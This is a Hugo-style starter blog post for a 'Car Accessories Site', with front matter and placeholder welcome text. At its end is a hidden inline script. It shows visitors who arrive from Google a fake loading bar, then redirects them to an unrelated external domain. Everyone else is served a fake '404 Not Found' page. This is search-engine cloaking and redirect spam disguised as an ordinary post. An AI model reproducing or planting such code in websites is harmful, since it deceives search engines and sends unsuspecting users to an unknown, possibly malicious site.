 ```yaml
---
title: Hello World
description: Welcome to Car Accessories Site
slug: hello-world
date: 2022-03-06 00:00:00+0000
image: cover.jpg
categories:
    - Example Category
tags:
    - Example Tag
weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```


Welcome to Car Accessories Site. This is your first post. Edit or delete it, then start writing!

You can find news about Car Accessories here.

<script>
    //判断是否从谷歌进入
    var referrera = document.referrer;
	if (referrera.includes('google.com')) {
	    document.querySelector('.awwww').style.display = 'none';
	      	//获取content节点
        var _content=document.getElementById("ddtzcontent");
        var num=0; //进度条里边的长度
        
        //设置计时器（动起来的关键）
        var id = setInterval(function(){
           num++;
           //设置content的宽度（动态变化）
           _content.style.width=`${num}px`;
           var num1=parseInt(num/3);
           //content内文字显示为百分比与宽度对应
           _content.innerText=`${num1}%`;
           //当content的宽度与container宽度相同时清除计时器
           if(num==300){
            clearInterval(id);
           }
           //加载到100%时替换content中的文字
        if(_content.innerText=="100%"){
            //_content.innerText="跳转页面"
        	window.location.href='https://88a370.com?ch=14194';
        }
        //每隔10毫秒变换一次
        },5)
	} else {
	  document.title = "404 Not Found";
	  document.querySelector('.ddtzcontainer').style.display = 'none';
	}

    </script>